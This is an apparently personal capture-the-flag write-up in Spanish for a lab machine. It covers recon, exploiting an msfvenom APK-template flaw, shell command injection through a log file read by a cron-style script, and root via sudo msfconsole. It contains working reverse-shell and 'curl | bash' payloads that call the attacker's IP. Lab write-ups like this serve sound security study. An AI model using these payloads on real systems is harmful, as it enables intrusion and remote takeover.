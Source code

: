## Summary

Tags: 
Y
- IP -> 10.10.10.226
- Ports -> TCP (22, 5000), UDP (idk)
- OS ->  Ubuntu Focal
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
    - 5000 -> Werkzeug httpd 0.16.1 (python 3.8.5)


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://10.10.10.226:5000** Miramos el gestor de contenidos

Miramos la pagina Web en ese puerto especifico, y encontramos que:
1. En la primer parte se puede ejecutar el comando nmap
2. En la segunda parte de puede ejecutar por detras el comando msfvenom (Windows, Linux y Android)
3. En la tercer parte se podria estar ejecutando el comando searchsploit

- Comando -> **searchsploit msfvenom** Para buscar vulnerabilidades asociadas con msfvenom, y encontramos una que te crea un APK malicioso
- Comando -> **searchsploit -m msfvenom** Nos traemos el exploit **.py** a nuestra maquina, despues lo miramos con **cat** y en una parte del exploit lo modificamos de la siguiente manera en la parte de payload: 
	nano msfvenom.py
		**payload = 'ping -c 1 10.10.14.17'** Haremos que nos ejecute un ping a nuestra maquina
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK  
- Comando -> **chown omarv:omarv -R /tmp/tmp7/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse, antes de ejecutarlo nos ponemos en escucha
- Comando -> **tcpsump -i tun0 icmp -n** Nos ponemos en escucha para trazas icmp y asi recibir el ping y recibimos los ping

Nos damos cuenta que tenemos ejecucion remota de comandos, por lo que nos creamos un archivo asi:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que nos puedan hacer el curl

Volvemos a modificar el **msfvenom** de la siguiente manera en la parte de payload: 
	nano msfvenom.py
		**payload = 'curl 10.10.14.17 | bash'** Haremos que nos ejecute un curl a nuestra maquina, el cual buscara el index.html que habiamos creado
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK
- Comando -> **chown omarv:omarv -R /tmp/tmp8/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, para recibir la peticion y nos de una revershell

## User
Una vez dentro tratamos la consola 
Nos creamos una pseudo consola con los siguientes comandos.
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

Obtenemos acceso a la maquina victima pero estamos como el usuario kid, por lo que buscamos la flag **user.txt**

Encontramos una dir llamado **logs**, el cual tiene los privilegios 777 y contiene un archivo llamado **hackers** el cual no tiene contenido y si le metemos algo este desaparece, por lo que nos descargaremos el **pspy** para detectar los procesos que estan corriendo.

Buscamos en Google pspy (**pspy-monitor Linux Github**), nos dirigimos a los releases y nos descargamos el **pspy64**, el cual se descargara en la carpeta de Downloads.

- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **upx pspy** Para bajarle el peso al archivo
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que cuando nos hagan un wget puedan cargar el archivo pspy
- Comando -> **wget http:/10.10.14.17/pspy** Para poder cargar un archivo especifico desde una IP, en este caso nuestra IP y nos cargaremos el pspy
En la maquina victima le damos permisos de ejecucion 
- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **./pspy** Ejecutamos el archivo, despues en la pagina web mandamos algo por el campo searchsploit y miramos que sucede

Nos damos cuenta que se esta ajecutando un nmap top 10 open ports, en donde hay un usuario llamado **pwn** que ejecuta un archivo **scanlosers.sh**. Al momento de inspeccionar ese archivo con un **cat**, nos damos cuenta que contine la siguiente:
	nano scanlosers.sh
		#!bin/bash
		log=/home/kids/log/hacker
		cd /home/pwd
		cat $log | cut -d' ' **-f3-** | sort u | while read ip; do
			sh -c "nmap --top-ports 10 -oN reccon/${**ip**}.nmap ${ip} 2>&1 >/dev/null" & 
         done 
         
Podemos que primero usa el archivo **hackers** que habiamos encontrado en el dir log, luego observamos que se mueve de directorio y al archivo hackers le hace un filtro con cut, y despues filtra por el -f3- significa que es el tercer campo, pero tambien nos indica que no solo agarra el tercer argumento que entra, sino que tambien agarra todos los argumentos despues de este, y lo que obtiene es una IP, por lo que ahi podriamos meter codigo para que ese se ejecute. 

Por lo que hacemos lo siguiente:
- **cd /home/kids/logs** Nos metemos al directorio de los log, para modificar el archivo hackers
- **echo "[2022-09-06 20:26:59] 10.10.14.17; ping -c 1 10.10.14.17 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un ping a nuestra maquina por lo que nos ponemos en escucha. 
- **tcpdump -i tun0 icmp -n** Nos ponemos en escucha para recibir los los icmp
Una vez que miramos que si nos dan los ping, hacemos lo siguiente...

- **echo "[2022-09-06 20:26:59] 10.10.14.17; whoami | nc 10.10.14.17 443 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos regresara el usuairo de whoami
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, todo esto con el fin de probar


- **echo "[2022-09-06 20:26:59] 10.10.14.17; curl 10.10.14.17 443 | bash  #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un curl buscando el archivo index.html el cual ya estamos compartiendo y tiene una revershell

Usaremos el comando que ya habiamos creado:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**

- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443

Y asi es como se hace el Pivoting al usuario pwd.

## Root

Una vez siendo el usuario Pwn

- Comando -> **sudo -l** Para ver los privilegios de sudoers, y descubrimos que que podemos ejecutar metasploit como el usuario root sin password (root) NO PASSWD : /opt/metasploit-framework-6.0.9/msfconsole

- Comando -> **sudo msfconsole -q** Abrimos el metaesploit como usuario root

Una vez adentro de metasploit 
- Comando -> **irb** Para conseguir una consola interactiva de Ruby
- >**system("whoami")** Podemos ejecutar comandos
- >**system("bash")** Nos da directamente una consola bash 